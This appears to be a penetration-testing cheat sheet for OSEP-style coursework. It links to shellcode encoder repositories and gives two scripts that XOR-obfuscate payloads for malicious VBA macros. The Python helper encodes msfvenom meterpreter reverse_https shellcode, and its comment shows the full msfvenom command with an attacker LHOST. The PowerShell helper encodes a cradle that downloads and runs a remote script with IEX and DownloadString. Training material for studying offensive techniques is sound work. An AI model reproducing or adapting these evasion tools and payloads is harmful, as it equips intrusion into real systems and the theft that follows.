 * [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/ROT%20Shellcode%20Encoder/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/ROT%20Shellcode%20Encoder/Program.cs)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter.py](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter.py)

Shellcode XOR-encrypt helper for VBA:

{% code title="XOREncrypt.py" %}
```python
import ast
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f vbapplication
buf = """buf = Array(31,33,...,33,37)"""
buf = buf[11:]
buf = buf.replace(' _\n', '')
buf = ast.literal_eval(buf)
enc = [b ^ ord('a') for b in buf]
enc = str(enc).replace('[', '').replace(']', '')

parts, chunk = [], ''
for c in enc:
    chunk += c
    if len(chunk) > 200 and c == ',':
        parts.append(chunk.strip())
        chunk = ''
parts.append(chunk)

enc = ' _\r\n'.join(parts)
enc = f'buf = Array({enc})'
print(enc)
```
{% endcode %}

PowerShell XOR-encrypt helper for VBA with WMI de-chain:

{% code title="PS-XOREncrypt-HEX.ps1" %}
```powershell
$payload = "powershell -exec bypass -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')"
[string]$output = ""
$payload.ToCharArray() | % {
    [string]$thischar = [byte][char]$_ -bxor [byte]'a'
    if($thischar.Length -eq 1) {
    $thischar = [string]"00" + $thischar
    $output += $thischar
    }
    elseif($thischar.Length -eq 2) {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3) {
        $output += $thischar
    }
}
$output | clip
```
{% endcode %}

